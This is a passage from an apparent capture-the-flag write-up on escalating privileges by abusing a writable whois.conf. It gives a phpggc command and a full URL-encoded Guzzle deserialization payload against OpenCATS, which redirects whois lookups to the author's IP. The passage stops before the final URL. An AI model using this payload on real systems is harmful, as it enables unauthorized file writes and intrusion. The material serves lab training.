 If we run `strings /usr/local/bin/whois | grep whois.conf` we see the following:

```
/usr/local/etc/whois.conf
Cannot open /usr/local/etc/whois.conf
```

Alright, so it reads its confiration from `/usr/local/etc/whois.conf`. This is amazing for us because as we saw earlier the `devel` user has write permissions to the `/usr/local/etc/` directory.

The OpenCATS exploit we tried earlier can write to the `/usr/local/etc/whois.conf` file. However, it adds extra data other than what we specify because of the GuzzleHTTP cookie that is used.

Anyway, we first need to figure out the format of the `whois.conf` file. Searching online finds [this page](http://manpages.ubuntu.com/manpages/bionic/man5/whois.conf.5.html), which says "It's a plain text file in ASCII encoding. Each line consists of two fields: a pattern to match WHOIS object identifier and a corresponding WHOIS server domain name." The site also gives an example:

```
\.nz$             nz.whois-servers.net
# Hangul Korean TLD
\.xn--3e0b707e$   whois.kr
# Private ASNs
^as645(1[2-9]|2[0-9]|3[0-4])$    whois.example.net
```

So, our file should be the following (where `10.10.14.169` is our ip address) because the `.*` regular expression matches anything:

```
.*   10.10.14.169
```

However, this will not work because of the GuzzleHTTP cookie data that gets added to our file. So, our regular expression needs to be `|.*` because the `|` symbol is the "or" operator, which means our expression will match whatever comes before it or anything.

So, our configuartion file should be this:

```
|.*   10.10.14.169
```

We can save this to a file called `whoisconfig` locally and then create the OpenCATS exploit payload with `./phpggc -u --fast-destruct Guzzle/FW1 /usr/local/etc/whois.conf whoisconfig`, which outputs the following:

```
a%3A2%3A%7Bi%3A7%3BO%3A31%3A%22GuzzleHttp%5CCookie%5CFileCookieJar%22%3A4%3A%7Bs%3A36%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00cookies%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A27%3A%22GuzzleHttp%5CCookie%5CSetCookie%22%3A1%3A%7Bs%3A33%3A%22%00GuzzleHttp%5CCookie%5CSetCookie%00data%22%3Ba%3A3%3A%7Bs%3A7%3A%22Expires%22%3Bi%3A1%3Bs%3A7%3A%22Discard%22%3Bb%3A0%3Bs%3A5%3A%22Value%22%3Bs%3A19%3A%22%7C.%2A+++10.10.14.169%0A%22%3B%7D%7D%7Ds%3A39%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00strictMode%22%3BN%3Bs%3A41%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00filename%22%3Bs%3A25%3A%22%2Fusr%2Flocal%2Fetc%2Fwhois.conf%22%3Bs%3A52%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00storeSessionCookies%22%3Bb%3A1%3B%7Di%3A7%3Bi%3A7%3B%7D
```

So, we can navigate to the following URL to create the `/usr/local/etc/whois.conf` with our desired contents:
